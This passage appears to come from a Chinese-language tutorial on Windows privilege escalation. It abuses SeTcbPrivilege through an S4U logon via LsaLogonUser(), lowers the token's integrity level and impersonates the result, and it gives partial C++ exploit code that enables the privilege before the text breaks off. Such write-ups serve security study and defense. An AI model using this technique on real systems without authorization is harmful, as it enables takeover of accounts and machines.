 这个难题中唯一剩下的部分是我们将如何使用生成的模拟令牌，因为我们假设我们只拥有 SeTcbPrivilege 特权，没有其他与模拟相关的特权。回顾前文有关令牌模拟的相关规则，只要令牌是给我们当前用户的，并且完整性级别小于或等于当前进程完整性级别，我们就应该能够在没有任何特殊权限的情况下模拟令牌。令牌的完整性级别可以在构造令牌时设置。因此，使用 `LsaLogonUser()` 返回的令牌，我们只需将完整性级别设置为 “Medium”，然后调用 `SetThreadToken()` 函数将当前线程的令牌替换为新令牌即可。

如下图所示，本地用户 John 拥有 SeTcbPrivilege 特权。

![image-20230704153527922](C:\Users\whoami\AppData\Roaming\Typora\typora-user-images\image-20230704153527922.png)

我们可以通过 `LsaLogonUser()` 函数执行 S4U 登录，并为 John 账户生成一张模拟令牌，最终使用该令牌创建线程，实现提权。下面给出可供参考的利用代码。

### Main

首先通过 `GetCurrentProcess()` 和 `OpenProcessToken()` 函数打开当前进程的句柄，如下所示。

```c++
int wmain(int argc, wchar_t* argv[])
{
	HANDLE hToken = NULL;
	
	if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, &hToken))
	{
		wprintf(L"[-] OpenProcessToken Error: [%u].\n", GetLastError());
		return 0;
	}

	// Enable SeTcbPrivilege for the current process token.
	if (EnableTokenPrivilege(hToken, SE_TCB_NAME))
	{
		if (NT_SUCCESS(DoS4U(hToken)))
		{
			return 1;
		}
	}
}
```

然后调用 `EnableTokenPrivilege()` 函数，该函数通过 `AdjustTokenPrivileges()` 函数为当前进程开启 SeTcbPrivilege 特权，如下所示。

```c++
BOOL EnableTokenPrivilege(HANDLE hToken, LPCWSTR lpName)
{
	BOOL status = FALSE;
	LUID luidValue = { 0 };
	TOKEN_PRIVILEGES tokenPrivileges;

	// Get the LUID value of the privilege for the local system
	if (!LookupPrivilegeValueW(NULL, lpName, &luidValue))
	{
		wprintf(L"[-] LookupPrivilegeValue Error: [%u].\n", GetLastError());
		return status;
	}

	// Set escalation information
	tokenPrivileges.PrivilegeCount = 1;
	tokenPrivileges.Privileges[0].Luid = luidValue;
	tokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

	// Elevate Process Token Access
	if (!AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, sizeof(tokenPrivileges), NULL, NULL))
	{
		wprintf(L"[-] AdjustTokenPrivileges Error: [%u].\n", GetLastError());
		return status;
	}
	else
	{
```